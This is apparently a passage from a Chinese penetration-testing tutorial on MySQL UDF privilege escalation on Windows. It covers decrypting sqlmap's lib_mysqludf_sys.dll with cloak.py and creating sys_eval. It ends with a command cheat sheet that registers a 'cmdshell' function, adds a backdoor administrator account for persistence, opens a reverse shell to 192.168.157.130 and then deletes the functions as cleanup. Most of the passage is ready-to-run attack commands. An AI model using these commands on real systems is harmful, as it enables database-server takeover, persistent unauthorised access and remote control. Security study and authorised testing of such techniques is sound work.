 ##### 手工直接上传动态链接库

在sqlmap中自带动态链接库sqlmap\data\udf\mysql\windows\64\lib_mysqludf_sys.dll_

不过这是加密文件，要使用sqlmap自带的cloak.py工具进行解密才能用，在sqlmap/extra目录下

```
python cloak.py -d -i C:\Python27\sqlmap\data\udf\mysql\windows\32\lib_mysqludf_sys.dll_
```

![image-20220317233714376](images/13.png)

生成了应该应用程序扩展就是我们要用到的，这里应该用32位的udf文件

接下来执行sql语句创建sys_exec或者sys_eval函数

![image-20220317233958378](images/14.png)

```
create function sys_eval returns string soname "lib_mysqludf_sys.dll";
```

```
函数介绍：

sys_eval，执行任意命令，并将输出返回。
sys_exec，执行任意命令，并将退出码返回。（但是不会有回显）
sys_get，获取一个环境变量。
sys_set，创建或修改一个环境变量。
一般用于创建新用户维持权限

命令介绍

create function cmdshell returns string soname 'moonudf.dll' 【创建cmdshell】
select cmdshell('net user $darkmoon 123456 /add & net localgroup administrators $darkmoon /add')   【添加超级管理员】
select cmdshell('net user')  【查看用户】
select cmdshell('netstat -an')  【查看端口】
select name from mysql.func   【查看创建函数】
delete from mysql.func where name='cmdshell'  【删除cmdshell】
create function backshell returns string soname 'moonudf.dll' 【创建反弹函数】
select backshell('192.168.157.130',12345)    【执行反弹】
delete from mysql.func where name='backshell'  【删除backshell】
```
